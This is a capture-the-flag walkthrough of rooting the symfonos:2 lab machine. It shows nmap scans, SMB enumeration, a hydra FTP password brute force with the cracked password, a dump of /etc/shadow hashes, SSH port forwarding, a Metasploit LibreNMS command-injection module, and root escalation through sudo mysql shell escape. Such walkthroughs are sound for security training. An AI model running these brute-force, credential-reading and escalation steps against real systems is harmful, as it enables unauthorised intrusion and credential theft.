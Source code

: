root@kali ~# nmap -sS -A -T4 -p- 10.0.0.21

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         ProFTPD 1.3.5
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:5f:87:20:e5:8c:fa:68:47:7d:71:62:08:ad:b9 (RSA)
|   256 04:2a:bb:06:56:ea:d1:93:1c:d2:78:0a:00:46:9d:85 (ECDSA)
|_  256 28:ad:ac:dc:7e:2a:1c:f6:4c:6b:47:f2:d6:22:5b:52 (ED25519)
80/tcp  open  http        WebFS httpd 1.21
|_http-server-header: webfs/1.21
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)

Starting with a NMAP scan, we have 4, ftp, ssh, http and smb (samba).
Let's Start by enumerating smb and ftp

----------------------------------------------------------------------------------------
SMB
----------------------------------------------------------------------------------------
root@kali ~/D/C/SYMFONOS#2# smbclient -L //10.0.0.21/
Enter WORKGROUP\root's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        anonymous       Disk      
        IPC$            IPC       IPC Service (Samba 4.5.16-Debian)

We are not required to enter a password.

root@kali ~/D/C/SYMFONOS#2# smbclient //10.0.0.21/anonymous
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jul 18 10:30:09 2019
  ..                                  D        0  Thu Jul 18 10:29:08 2019
  backups                             D        0  Thu Jul 18 10:25:17 2019

                19728000 blocks of size 1024. 16298676 blocks available
smb: \> cd backups
smb: \backups\> ls                                                                                         
  .                                   D        0  Thu Jul 18 10:25:17 2019                                 
  ..                                  D        0  Thu Jul 18 10:30:09 2019                                 
  log.txt                             N    11394  Thu Jul 18 10:25:16 2019                                 
                                                                                                           
                19728000 blocks of size 1024. 16298676 blocks available                                    
smb: \backups\> get log.txt
getting file \backups\log.txt of size 11394 as log.txt (271.4 KiloBytes/sec) (average 271.4 KiloBytes/sec) 

We downloaded the file log.txt to our local machine and it holds a lot of information. "root@symfonos2:~# cat /etc/shadow > /var/backups/shadow.bak
root@symfonos2:~# cat /etc/samba/smb.conf", this line shows that the /etc/shadow file was copied to /var/backups as shadow.bak, when we will get access we can get access to the machine probably hash the password stored inside.
After going to the log.txt file some more, we find the username ---> "aeolus"

------------------------------------------------------------------------------------
HTTP
------------------------------------------------------------------------------------
After brute forcing the directories on the web site on hosted on port 80 doesn't hold any files or extra directories, so we will leave it for now. 

------------------------------------------------------------------------------------
FTP
------------------------------------------------------------------------------------
Ftp doesn't allow for anonymous logins so let's try brute forcing it using the username we found.

root@kali ~/D/C/SYMFONOS#2# hydra -l 'aeolus' -P /usr/share/wordlists/rockyou.txt ftp://10.0.0.21 -I -t4 -V

[21][ftp] host: 10.0.0.21   login: aeolus   password: sergioteamo

Logging in to the ftp server it holds the same content as the smb, maybe the creds we found are also valid for ssh.

------------------------------------------------------------------------------------
SSH
------------------------------------------------------------------------------------
root@kali ~/D/C/SYMFONOS#2# ssh aeolus@10.0.0.21
aeolus@10.0.0.21's password: sergioteamo
aeolus@symfonos2:~$ uname -a
Linux symfonos2 4.9.0-9-amd64 #1 SMP Debian 4.9.168-1+deb9u3 (2019-06-16) x86_64 GNU/Linux

Going back to the log.txt file, the admin of the machine copied the /etc/shadow file, we can read it:

root:$6$VTftENaZ$ggY84BSFETwhissv0N6mt2VaQN9k6/HzwwmTtVkDtTbCbqofFO8MVW.IcOKIzuI07m36uy9.565qelr/beHer.:18095:0:99999:7:::
daemon:*:18095:0:99999:7:::
bin:*:18095:0:99999:7:::
sys:*:18095:0:99999:7:::
sync:*:18095:0:99999:7:::
games:*:18095:0:99999:7:::
man:*:18095:0:99999:7:::
lp:*:18095:0:99999:7:::
mail:*:18095:0:99999:7:::
news:*:18095:0:99999:7:::
uucp:*:18095:0:99999:7:::
proxy:*:18095:0:99999:7:::
www-data:*:18095:0:99999:7:::
backup:*:18095:0:99999:7:::
list:*:18095:0:99999:7:::
irc:*:18095:0:99999:7:::
gnats:*:18095:0:99999:7:::
nobody:*:18095:0:99999:7:::
systemd-timesync:*:18095:0:99999:7:::
systemd-network:*:18095:0:99999:7:::
systemd-resolve:*:18095:0:99999:7:::
systemd-bus-proxy:*:18095:0:99999:7:::
_apt:*:18095:0:99999:7:::
Debian-exim:!:18095:0:99999:7:::
messagebus:*:18095:0:99999:7:::
sshd:*:18095:0:99999:7:::
aeolus:$6$dgjUjE.Y$G.dJZCM8.zKmJc9t4iiK9d723/bQ5kE1ux7ucBoAgOsTbaKmp.0iCljaobCntN3nCxsk4DLMy0qTn8ODPlmLG.:18095:0:99999:7:::
cronus:$6$wOmUfiZO$WajhRWpZyuHbjAbtPDQnR3oVQeEKtZtYYElWomv9xZLOhz7ALkHUT2Wp6cFFg1uLCq49SYel5goXroJ0SxU3D/:18095:0:99999:7:::
mysql:!:18095:0:99999:7:::
Debian-snmp:!:18095:0:99999:7:::
librenms:!:18095::::::

We can see that there is another user (cronus) on the machine.
I tried using "john" to crack the passwords for root, aeolus and cronus but unfortunately it wasn't succesfull.

aeolus@symfonos2:~$ sudo -l
[sudo] password for aeolus: 
Sorry, user aeolus may not run sudo on symfonos2.

aeolus@symfonos2:~$ find / -perm /4000 2> /dev/null

I tried to see what permissions the user has and If there were any SUID files on the machine but there were none.
At this point I got stuck for a while, there were no crontabs, SUID files or kernel expliots available, I looked at a write up for this machine and saw that we needed to do another nmap scan to the machine.

aeolus@symfonos2:~$ nmap localhost -p-

PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
8080/tcp open  http-proxy

The machine has a web proxy, we need to Port Forward the content of the proxy to our local machine, (Port Forwading allows computers over the intenet to connect to a specific computer or service within a private network). We can use ssh for this.

root@kali ~/D/C/SYMFONOS#2# ssh -L 8080:127.0.0.1:8080 aeolus@10.0.0.21

Going to localhost:8080 we get as site with "LibreNMS" running on it. We can log with the same creds we logged in to ssh with.
I searched msfconsle for "LibreNMS" and found this expliot --->
linux/http/librenms_collectd_cmd_inject

Using it allows us to get a shell on the machine as the cronus user we found eariler. 

We can use "python2 -c 'import pty; pty.spawn("/bin/bash")'" to get a better shell

python2 -c 'import pty; pty.spawn("/bin/bash")'
cronus@symfonos2:/opt/librenms/html$ whoami
cronus
cronus@symfonos2:/opt/librenms/html$ 

cronus@symfonos2:/home/cronus$ sudo -l

User cronus may run the following commands on symfonos2:
    (root) NOPASSWD: /usr/bin/mysql

It seems we can run mysql with sudo. 

cronus@symfonos2:/home/cronus$ sudo mysql -uroot
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| librenms           |
| mysql              |
| performance_schema |
+--------------------+

After playing with it for a while, I didn't find anything in any table. After reading the manual page for mysql, turns out mysql has an options to run bash commands, we can use \! /bin/bash and get a shell as root.

MariaDB [(none)]> \! /bin/bash
root@symfonos2:/home/cronus# 

We can now go to the /root folder and read the proot.txt file.

proof.txt:

        Congrats on rooting symfonos:2!

           ,   ,
         ,-`{-`/
      ,-~ , \ {-~~-,
    ,~  ,   ,`,-~~-,`,
  ,`   ,   { {      } }                                             }/
 ;     ,--/`\ \    / /                                     }/      /,/
;  ,-./      \ \  { {  (                                  /,;    ,/ ,/
; /   `       } } `, `-`-.___                            / `,  ,/  `,/
 \|         ,`,`    `~.___,---}                         / ,`,,/  ,`,;
  `        { {                                     __  /  ,`/   ,`,;
        /   \ \                                 _,`, `{  `,{   `,`;`
       {     } }       /~\         .-:::-.     (--,   ;\ `,}  `,`;
       \\._./ /      /` , \      ,:::::::::,     `~;   \},/  `,`;     ,-=-
        `-..-`      /. `  .\_   ;:::::::::::;  __,{     `/  `,`;     {
                   / , ~ . ^ `~`\:::::::::::<<~>-,,`,    `-,  ``,_    }
                /~~ . `  . ~  , .`~~\:::::::;    _-~  ;__,        `,-`
       /`\    /~,  . ~ , '  `  ,  .` \::::;`   <<<~```   ``-,,__   ;
      /` .`\ /` .  ^  ,  ~  ,  . ` . ~\~                       \\, `,__
     / ` , ,`\.  ` ~  ,  ^ ,  `  ~ . . ``~~~`,                   `-`--, \
    / , ~ . ~ \ , ` .  ^  `  , . ^   .   , ` .`-,___,---,__            ``
  /` ` . ~ . ` `\ `  ~  ,  .  ,  `  ,  . ~  ^  ,  .  ~  , .`~---,___
/` . `  ,  . ~ , \  `  ~  ,  .  ^  ,  ~  .  `  ,  ~  .  ^  ,  ~  .  `-,

        Contact me via Twitter @zayotic to give feedback!
